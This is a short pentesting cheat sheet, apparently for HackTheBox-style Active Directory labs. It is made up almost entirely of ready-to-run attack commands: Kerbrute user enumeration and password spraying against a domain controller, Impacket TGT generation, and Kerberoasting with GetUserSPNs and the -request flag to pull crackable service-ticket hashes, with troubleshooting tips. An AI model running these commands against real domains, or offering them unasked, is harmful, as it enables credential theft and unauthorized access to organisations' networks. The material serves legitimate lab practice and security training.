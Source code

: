 # Cheat Sheet

## Kerbrute

### Enumerating Valid Users w/ Kerbrute

1. Place potentially valid users into a <mark style="color:yellow;">users.txt</mark> file

&#x20; 2\. Execute Userenum:

```
./kerbrute userenum -d htb.local --dc hostname_or_IP_of_DC users.txt
```

### Password Spray

1. Gather valid usernames
2. Execute userenum
3. Passwordspray:

```
./kerbrute passwordspray --dc hostname_or_IP_of_DC -d htb.local users.txt <password_here>
```

## Impacket

### GetTGT

Generate Kerberos TGT:

```
impacket-getTGT domain/user:password
```

* This will save the ticket as <mark style="color:yellow;">\<username>.ccache</mark>

Export KRB5CCNAME so that Impacket will use it:

```
export KRB5CCNAME=user.ccache
```

```
klist

Ticket cahce: FILE: <username.ccache>
Default principal: username@domain

Valid Starting        Expires            Service Principal
MM/DD/YYYY TIME       MM/DD/YYYY TIME    krbtgt/domain@domain
        renew until MM/DD/YYYY TIME
```

### Kerberoast

```
impacket-GetUserSPNs domain/user:password -dc-ip hostname_or_ip_of_dc -k

Password: Enter_password_here
```

no-pass option:

```
impacket-GetUserSPNs domain/user:password -dc-ip hostname_or_ip_of_dc -k -no-pass
```

* Be sure to utilize the <mark style="color:yellow;">-request option if you want a hash</mark>
* Without it, you will only validate access to an SPN
* Which is helpful, but what we're really after is a hash

```
impacket-GetUserSPNs domain/user:password -dc-ip hostname_or_ip_of_dc -k -request
```

Getting an error?

* "<mark style="color:yellow;">The SMB request is not supported. Probably NTLM is disabled.</mark>"
* You may be able to fix this with the <mark style="color:yellow;">-dc-host</mark> option rather than -dc-ip

```
impacket-GetUserSPNs domain/user:password -dc-host hostname_or_ip_of_dc -k
```

no-pass option:

```
impacket-GetUserSPNs domain/user:password -dc-host hostname_or_ip_of_dc -k -no-pass
```

Requesting hash:

* The <mark style="color:yellow;">-request option is required in order to obtain a hash</mark>

```
impacket-GetUserSPNs domain/user:password -dc-host hostname_or_ip_of_dc -k -no-pass -request
```
